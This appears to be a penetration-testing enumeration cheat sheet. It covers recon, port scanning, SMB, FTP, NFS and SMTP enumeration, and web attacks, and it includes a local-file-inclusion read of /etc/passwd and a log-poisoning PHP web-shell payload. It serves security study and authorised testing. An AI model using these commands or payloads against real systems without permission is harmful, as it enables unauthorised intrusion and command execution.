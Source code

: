 # Enumeration Quick Reference 
## Checklist 
- [ ] Recon 
- [ ] (If given a range): what hosts are on the network
- [ ] Open well known ports (0-1023)
- [ ] What are these ports used for (banner grab) 
- [ ] Open high ports (12024-65535) 
- [ ] Operating system 
- [ ] FTP or SMB anon log in 
- [ ] Exploitable services versions (searchsploit, github, google) 
- [ ] Web enum (see checklist below) 
- [ ] Brute force any services / log in pages 

## Recon   
### DNS Look Up 
whois, nslookup, dig, host <-manual tools   
Dierce, DNSenum, DNSrecon <-automated tools  
[The Harvester](https://github.com/laramies/theharvester)  
[Recon-ng](https://github.com/lanmaster53/recon-ng)  

    nslookup -type=any <DOMAIN>   
    host -t axfr -l <DOMAIN> <DNSSERVER>   
    dig -t mx <DOMAIN>  
    dig -t any <DOMAIN>
    
## Network Enum:  
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "    
    nmap -sn 172.16.0.0/24 

## Host enum 
**Identify os, services/ports/versions. Save results to text files. **   

    autorecon 127.0.0.1  
    nmap -A -T 4 -vv 127.0.0.1
    nmap -sV -p- --min-rate 200 -vv 127.0.0.1  

    nc -nvzw1 192.168.53.120 1-65535 2>&1 | grep open       

## Service Enum   

nmap scripts: /usr/share/nmap/scripts   
nmap --script <name>    --script-help 
	
**Port 21: FTP**
[Enumerating ftp](https://book.hacktricks.xyz/pentesting/pentesting-ftp)   
	
	anon log in: ftp / no password	or 	Anonymous: asdfasdf 
	
**Port 25: SMTP**   
	
	smtp-user-enum -M VRF -u <user.txt> -t 127.0.0.1   
	nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 127.0.0.1
	
**Port 139: SMB** 
check for unauthenticated login, enum with smbmap 
	
    smbclient -L <IP>
    rpcclient -U "" <IP>
    smbclient -U <HOST> -L <IP>
    /usr/bin/smbclient \\\\<IP>\\share <HOST>  
	
**Port 2049: NFS**  
	[Pentesting NFS](https://book.hacktricks.xyz/pentesting/nfs-service-pentesting)  
	[No root squash](http://fullyautolinux.blogspot.com/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)
	
    showmount -e 127.0.0.1
    mkdir /mnt/share   
    sudo mount -t nfs -o v2 127.0.0.1/share /mnt/share -o nolock 
	
## Web Enum 
- [ ] Scan for sub directories and pages   
- [ ] Log in pages - guess default creds, admin:admin, admin:password   
- [ ] File upload (what types of files are accepted?, what checks?)   
- [ ] Intercept HTTP requests with Burp   	

	Reference: [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)    
    [Wappanalyzer](https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/), [Foxy Proxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) and [user agent switcher](https://addons.mozilla.org/en-US/firefox/addon/uaswitcher/) Firefox extensions  
**Scan for sub directories and pages** 	
    nmap http scripts 
	
    nikto -h http://127.0.0.1:80/ 
	
    dirb http://127.0.0.1/   (default word list: common.txt)   

**Login pages** 
	Default creds - admin: admin, admin:password, service specific default creds   
	Register a new user  
	Brute force log in  
	SQL injection  
	
Local File Include  
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    
	
	
	/etc/passwd, etc.
	can you include a remote file?
	?test=php://filter/convert.base64-encode/resource=/filepath  base64 encode /decode  
Log Poisoning 
	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id    

	
[SQL Injection Cheatsheet](https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md) 
	
Local File Inclusion 
 
	
	
	
	  
Web vulnerabilities to gain access to the system - paper 
https://www.exploit-db.com/papers/13017/  
Bypassing File Upload Restrictions 
http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html  
Basic SQLi 
http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-2-Basic-of-SQL-for-SQLi.html http://www.securityidiots.com/Web-Pentest/SQL-Injection/Part-3-Basic-of-SQL-for-SQLi.html http://www.sqlinjection.net/login/
